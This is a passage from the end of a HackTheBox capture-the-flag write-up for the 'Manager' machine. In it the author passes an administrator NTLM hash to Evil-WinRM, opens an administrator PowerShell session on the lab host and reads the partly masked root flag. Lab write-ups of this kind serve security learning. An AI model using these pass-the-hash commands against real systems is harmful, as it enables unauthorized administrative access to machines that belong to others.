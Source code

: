 
### WinRM

With the hash, I can get a shell as administrator using [Evil-
WinRM](https://github.com/Hackplayers/evil-winrm):

    
    
    oxdf@hacky$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

And grab `root.txt`:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
    589f36d6************************
    

[](/2024/03/16/htb-manager.html)


